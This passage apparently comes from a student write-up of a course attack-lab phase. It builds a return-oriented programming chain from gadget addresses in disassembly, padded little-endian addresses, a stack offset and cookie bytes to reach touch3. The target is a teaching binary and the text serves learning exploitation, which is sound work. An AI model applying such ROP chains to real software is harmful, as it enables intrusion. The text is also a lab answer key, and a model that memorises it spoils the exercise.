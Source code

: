 * `58 c3 pop %rax`
    ```
    0000000000401670 <getval_492>:
      401670:	b8 d7 83 58 c3       	mov    $0xc35883d7,%eax
      401675:	c3                   	retq   
    ```
    * `401670` + 3 = `401673`
    * reverse and pad: `73 16 40 00 00 00 00 00`
### Step 4
* `0x48` is offset from first line to cookie string
* `48 00 00 00 00 00 00 00`
### Step 5
* `89 c2 mov eax,edx`
    ```
    0000000000401735 <setval_352>:
      401735:	c7 07 89 c2 20 db    	movl   $0xdb20c289,(%rdi)
      40173b:	c3                   	retq   
    ```
    * `401735` + 2 = `401737`
    * reverse and pad: `37 17 40 00 00 00 00 00`
### Step 6
* `89 d1 mov edx,ecx`
    ```
    0000000000401727 <addval_119>:
      401727:	8d 87 89 d1 92 90    	lea    -0x6f6d2e77(%rdi),%eax
      40172d:	c3                   	retq   
    ```
    * `401727` + 2 = `401729`
    * reverse and pad: `29 17 40 00 00 00 00 00`
### Step 7
* `89 ce mov ecx,esi`
    ```
    000000000040174a <setval_351>:
      40174a:	c7 07 89 ce 78 db    	movl   $0xdb78ce89,(%rdi)
      401750:	c3                   	retq   
    ```
    * `40174a` + 2 = `40174c`
    * reverse and pad: `4c 17 40 00 00 00 00 00`
### Step 8
* `lea (rdi,rsi,1),rax`
    ```
    0000000000401689 <add_xy>:
      401689:	48 8d 04 37          	lea    (%rdi,%rsi,1),%rax
      40168d:	c3                   	retq   
    ```
  * `401689`
  * reverse and pad:  `89 16 40 00 00 00 00 00`
### Step 9
* same as step 2
  * `4f 16 40 00 00 00 00 00`
### Step 10
* touch3 address from phase 3
* `ab 15 40 00 00 00 00 00`
### Step 11
* cookie string representation from phase 3
* `35 63 64 36 31 65 66 31 00` 
